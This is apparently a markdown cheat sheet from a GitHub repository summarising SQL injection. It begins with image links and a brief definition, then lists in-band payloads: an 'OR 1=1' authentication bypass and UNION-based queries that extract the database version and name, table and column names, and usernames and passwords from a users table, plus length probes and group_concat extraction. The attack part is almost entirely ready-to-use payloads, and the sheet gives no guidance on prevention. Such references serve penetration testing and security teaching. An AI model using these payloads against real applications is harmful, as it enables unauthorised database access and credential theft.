










# SQLi (Structured Query Language) Injection Summary

## What is SQL Injection?
SQL Injection is a web security vulnerability that allows a hacker to interfere with the queries that an application makes to its database. It occurs when untrusted input is inserted into a SQL query without proper validation or escaping, enabling the hacker to manipulate the database.

## Types of SQL Injection

### **1. In-Band SQLi**
In-Band SQLi is the most common and straightforward type of attack, where the attacker retrieves results using the same communication channel.


**- Basic authentication bypass**
```sql
' OR 1=1; --
```



**- Union-based to retrieve version**
```sql
' UNION SELECT NULL, @@version; --
' UNION SELECT NULL, version(); --
```



**- Union-based to retrieve database name**
```sql
' UNION SELECT NULL, database(); --
```



**- Union-based to retrieve all table names**
```sql
' UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema=database(); --
```



**- Union-based to retrieve column names**
```sql
' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name='users'; --
```



**- Retrieve usernames and passwords**
```sql
' UNION SELECT username, password FROM users; --
```



**- Extracting data from a specific table**
```sql
' UNION SELECT NULL, column_name FROM users; --
```




**- Check the length of the database name**
```sql
' OR LENGTH(database()) > 0; --
%' AND LENGTH(database()) = 10; --
```



**- Retrieve data from a specific column as a group**
```sql
' UNION SELECT 1,2,3,4; --
' UNION SELECT 1,2,3,group_concat(username) FROM users; --
```

